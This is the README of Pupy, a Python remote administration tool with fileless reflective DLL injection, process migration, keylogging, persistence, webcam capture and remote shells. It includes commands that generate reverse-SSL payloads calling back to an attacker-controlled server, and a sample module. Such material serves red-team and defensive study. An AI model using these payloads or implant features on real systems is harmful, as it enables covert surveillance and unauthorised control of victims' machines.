 # Pupy

[![Join the chat at https://gitter.im/n1nj4sec/pupy](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/n1nj4sec/pupy?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
Pupy is an opensource, multi-platform Remote Administration Tool written in Python. On Windows, Pupy uses reflective dll injection and leaves no traces on disk.

## Features :
- On windows, the Pupy payload is compiled as a reflective DLL and the whole python interpreter is loaded from memory. Pupy does not touch the disk :)
- Pupy can reflectively migrate into other processes
- Pupy can remotely import, from memory, pure python packages (.py, .pyc) and compiled python C extensions (.pyd). The imported python modules do not touch the disk. (.pyd mem import currently work on Windows only, .so memory import is not implemented). 
- modules are quite simple to write and pupy is easily extensible.
- Pupy uses [rpyc](https://github.com/tomerfiliba/rpyc) and a module can directly access python objects on the remote client
  - we can also access remote objects interactively from the pupy shell and even auto completion of remote attributes works !
- communication channel currently works as a ssl reverse connection, but a bind payload will be implemented in the future
- all the non interactive modules can be dispatched on multiple hosts in one command
- Multi-platform (tested on windows 7, windows xp, kali linux, ubuntu)
- modules can be executed as background jobs
- commands and scripts running on remote hosts are interruptible
- auto-completion and nice colored output :-)
- commands aliases can be defined in the config

## Implemented Modules :
- migrate (windows only) 
  - inter process architecture injection also works (x86->x64 and x64->x86)
- keylogger (windows only)
- persistence (windows only)
- screenshot (windows only)
- webcam snapshot (windows only)
- command execution
- download
- upload
- socks5 proxy
- local port forwarding
- interactive shell (cmd.exe, /bin/sh, ...)
- interactive python shell
- shellcode exec (thanks to @byt3bl33d3r)

##Quick start
In these examples the server is running on a linux host (tested on kali linux) and it's IP address is 192.168.0.1  
The clients have been tested on (Windows 7, Windows XP, kali linux, ubuntu, Mac OS X 10.10.5) 
### generate/run a payload
#### for Windows
```bash
./pupygen.py 192.168.0.1 -p 443 -t exe_x86 -o pupyx86.exe
```
you can also use -t dll_x86 or dll_x64 to generate a reflective DLL and inject/load it by your own means.
#### for Linux
```bash
pip install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

#### for MAC OS X
```bash
easy_install rpyc #(or manually copy it if you are not admin)
python reverse_ssl.py 192.168.0.1:443
```

### start the server
1. eventually edit pupy.conf to change the bind address / port
2. start the pupy server :
```bash
./pupysh.py
```

### Some screenshots
#####list connected clients
![screenshot1](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr1.png "screenshot1")
#####help
![screenshot3](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/help.png "screenshot3")
#####execute python code on all clients
![screenshot2](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr2.png "screenshot2")
#####execute a command on all clients, exception is retrieved in case the command does not exists
![screenshot4](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/scr3.png "screenshot4")
#####use a filter to send a module only on selected clients
![screenshot5](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/filters.png "screenshot5")
#####migrate into another process
![screenshot6](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/migrate.png "screenshot6")
#####interactive shell
![screenshot7](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/interactive_shell.png "screenshot7")
#####interactive python shell
![screenshot8](https://github.com/n1nj4sec/pupy/raw/master/docs/screenshots/pyshell.png "screenshot8")

##example: How to write a MsgBox module
first of all write the function/class you want to import on the remote client  
in the example we create the file pupy/packages/windows/all/pupwinutils/msgbox.py 
```python
import ctypes
import threading

def MessageBox(text, title):
	t=threading.Thread(target=ctypes.windll.user32.MessageBoxA, args=(None, text, title, 0))
	t.daemon=True
	t.start()
```
then, simply create a module to load our package and call the function remotely
```python
class MsgBoxPopup(PupyModule):
	""" Pop up a custom message box """

	def init_argparse(self):
		self.arg_parser = PupyArgumentParser(prog="msgbox", description=self.__doc__)
		self.arg_parser.add_argument('--title', help='msgbox title')
		self.arg_parser.add_argument('text', help='text to print in the msgbox :)')

	@windows_only
	def is_compatible(self):
		pass

	def run(self, args):
		self.client.load_package("pupwinutils.msgbox")
		self.client.conn.modules['pupwinutils.msgbox'].MessageBox(args.text, args.title)
		self.log("message box popped !")

```

## Dependencies
rpyc (https://github.com/tomerfiliba/rpyc)

##Roadmap and ideas
Some ideas without any priority order
- support for https proxy
- bind instead of reverse connection
- add offline options to payloads like enable/disable certificate checking, embed offline modules (persistence, keylogger, ...), etc...
- integrate scapy in the windows dll :D (that would be fun)
- work on stealthiness and modules under unix systems
- webcam snap
- mic recording
- socks5 udp support
- remote port forwarding
- perhaps write some documentation
- ...
- any cool idea ?

## Contact
mail: contact@n1nj4.eu  
  
If some of you want to participate or send me a feedback, don't hesitate :-)  
[Follow me on twitter](https://twitter.com/n1nj4sec)
 
